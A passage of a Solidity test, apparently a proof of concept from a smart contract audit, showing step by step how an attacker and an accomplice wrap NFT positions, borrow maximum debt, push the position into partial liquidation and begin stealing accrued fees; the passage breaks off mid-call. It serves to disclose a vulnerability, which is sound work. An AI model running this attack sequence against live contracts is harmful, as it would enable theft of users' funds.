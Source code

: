 ```solidity

    // 1. attacker wraps tokenId1
    wrapper.underlying().approve(address(wrapper), tokenId1);
    wrapper.wrap(tokenId1, attacker);

    // 2. accomplice wraps tokenId2
    wrapper.underlying().approve(address(wrapper), tokenId2);
    wrapper.wrap(tokenId2, accomplice);

    // 3. swap so that some fees are generated
    swapExactInput(borrower, address(token0), address(token1), 100_000 * unit0);

    // 4. attacker enables tokenId1 as collateral and transfers a small portion to accomplice
    startHoax(attacker);
    wrapper.enableTokenIdAsCollateral(tokenId1);
    wrapper.transfer(accomplice, wrapper.balanceOf(attacker) / 100);

    // 5. accomplice enables tokenId2 as collateral and partially unwraps
    startHoax(accomplice);
    wrapper.enableTokenIdAsCollateral(tokenId2);
    wrapper.unwrap(
        accomplice,
        tokenId1,
        accomplice,
        wrapper.balanceOf(accomplice, tokenId1) / 2,
        bytes("")
    );

    // 6. attacker borrows max debt from eVault
    startHoax(attacker);
    evc.enableCollateral(attacker, address(wrapper));
    evc.enableController(attacker, address(eVault));
    eVault.borrow(type(uint256).max, attacker);

    vm.warp(block.timestamp + eVault.liquidationCoolOffTime());

    (uint256 maxRepay, uint256 yield) = eVault.checkLiquidation(liquidator, attacker, address(wrapper));
    assertEq(maxRepay, 0);
    assertEq(yield, 0);

    // 7. simulate attacker becoming partially liquidatable
    startHoax(IEulerRouter(address(oracle)).governor());
    IEulerRouter(address(oracle)).govSetConfig(
        address(wrapper),
        unitOfAccount,
        address(
            new FixedRateOracle(
                address(wrapper),
                unitOfAccount,
                1
            )
        )
    );

    (maxRepay, yield) = eVault.checkLiquidation(liquidator, attacker, address(wrapper));
    assertTrue(maxRepay > 0);

    // 8. accomplice executes fee theft against attacker
    startHoax(accomplice);
    wrapper.unwrap(
        accomplice,
        tokenId2,
```